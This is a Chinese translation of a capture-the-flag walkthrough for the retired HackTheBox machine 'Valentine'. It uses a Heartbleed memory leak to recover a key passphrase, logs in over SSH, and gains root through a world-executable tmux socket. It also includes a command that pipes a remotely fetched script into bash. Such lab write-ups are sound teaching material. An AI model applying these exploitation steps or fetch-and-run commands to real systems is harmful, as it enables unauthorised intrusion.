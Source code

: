 # 情人节——令人心碎的黑客盒子演练

> 原文：<https://infosecwriteups.com/valentine-a-heartbleed-hackthebox-walk-through-d16a514bf1eb?source=collection_archive---------1----------------------->

![](img/407f2acba0869556d35e48cbd1d72354.png)

世界上流血的心联合起来

我在 5 月份完成了《情人节》,但它最近退役了，所以我想我应该写一篇关于我如何扎根于这个盒子的文章。

# 摘要

Valentine 是一台运行 web 服务的 Linux 机器，很容易受到心脏出血的攻击。该漏洞被利用来获取从内存中转储的密码。该密码与在 web 目录中找到的加密 RSA 密钥相结合，以获得主机上的 SSH 访问权限。从那里，以 root 用户身份运行的进程被访问，以获得具有提升权限的交互式 shell。

# 侦察

我像往常一样用一个`nmap -sV -sC`扫描来枚举服务版本并运行默认脚本:

nmap

我可以看到 SSH 是打开的，在 80 和 443 上运行着 web 服务。当我访问每个 web 服务时，它们都返回相同的主页，没有源代码中列出的超链接或目录。这些服务都返回了表明 Ubuntu 主机的操作系统信息。

然后，我继续用 gobuster 枚举 web 目录:

```
gobuster -k -u [https://10.10.10.79](https://10.10.10.79) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

gobuster

> `-k`忽略 SSL 证书(否则自签名证书会抛出错误)
> `-u`指定 URL
> `-w`指定单词列表

从这里，我去了`/dev`目录，至少看看那里有什么。我找到了两个文件:`hype_key`和`notes.txt`。

notes.txt

另一个文件`hype_key`，看起来像一堆十六进制值。我用 curl 把它放到一个文件中，它看起来像这样:

```
curl -k [https://10.10.10.79/dev/hype_key](https://10.10.10.79/dev/hype_key) > hype_key
```

炒作 _ 关键

我能够将它放入 Burpsuite 中，并将其从 ASCII 十六进制解码为明文，这是一个加密的 RSA 密钥，其主体格式很差:

相当混乱

好的，我们知道这里的*应该看起来像一个 RSA 密钥。但是有许多额外的空格字符使它看起来超级棒。我决定用 python 来转换文件，只用几行就去掉了空格字符。*

用 python 清理 hype_key

最终产品看起来完全符合预期！

现在这样好多了

太好了！但是如果没有密码，这把钥匙就没什么用了。所以我不得不回到服务器上找点别的东西戳戳。在`/encode`和`/decode`目录下的页面看起来是简单的 base64 转换器。页面上看不到源代码，也没有链接到页面上的任何其他内容，所以我觉得这不是一个值得掉进的兔子洞。

# 剥削

主页上的 [**Heartbleed 标志**](http://heartbleed.com) 是这个盒子的重要暗示。由于我在机器上没有找到太多其他的东西，我运行了一个 searchsploit，发现有几个漏洞利用脚本和一些 metasploit 模块可用于此。其中一个对我很有效的标题是“OpenSSL TLS heart beat Extension—‘heart bleed’内存泄漏”。在 kali 中，文件名位于`/usr/share/exploitdb/exploits/multiple/remote/32745.py`

```
./32745.py 10.10.10.79
```

心脏出血

当机器接收到更多的流量时，这个漏洞就变得非常混乱。在它退役后，我重新访问了它以运行对要点的利用，内存转储中唯一的东西正是我所需要的。然而，随着其他流量冲击服务器，我不得不多次运行该漏洞，以获得正确的信息进行转储。总之，我需要的是:

```
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

这被传递到`/decode.php`中，因此我们可以尝试对其进行 base64 解码:

```
echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
```

这将返回字符串`heartbleedbelievethehype`，我们可以尝试使用它来解密 RSA 密钥:

```
openssl rsa -in python.key -out new.key
```

出现提示时，输入密码，一个新的 RSA 密钥被写入一个名为`new.key`的文件中！我们可以用这个密钥 SSH 到 Valentine…但是用户是什么？这一步只是盲目猜测，但最终我根据密钥和密码猜测出了用户`hype`的以下命令:

```
ssh hype@10.10.10.79 -i new.key
```

我被录取了！我可以从这里拿到`user.txt`旗。

# 权限提升

从这里开始，我对 Linux 主机进行了典型的枚举。我运行 [LinEnum.sh](https://github.com/rebootuser/LinEnum) 并开始检查输出，以获得更多关于主机上正在发生什么以及我可以访问什么的上下文信息。

我最喜欢的运行方式是将这个 bash 脚本放在 Kali 的一个目录中，并使用 python SimpleHTTPServer 托管它:

```
python -m SimpleHTTPServer 80
```

然后，在远程机器上，打开脚本并将其直接传送到 bash:

```
curl http://X.X.X.X/Linenum.sh | bash
```

主机上没有写入文件！

不管怎样，尽管返回了很多，我还是不能用这个脚本直接*识别我的 privesc 路径。我不得不把手弄脏，手动绕着主机爬。根目录下有一个隐藏的`.dev`文件夹。这引起了我的注意，我在其中发现了一个名为`dev_sess`的文件，该文件归`root`所有，但每个人都可以执行。*

在`dev_sess`上运行`file`命令返回它是一个“套接字”。过了一会儿，我发现程序`tmux`可以连接到这些文件并返回交互式外壳！让我们试一试:

```
tmux -S /.devs/dev_sess
```

果然，这返回了一个以 root 身份运行的 shell！游戏结束。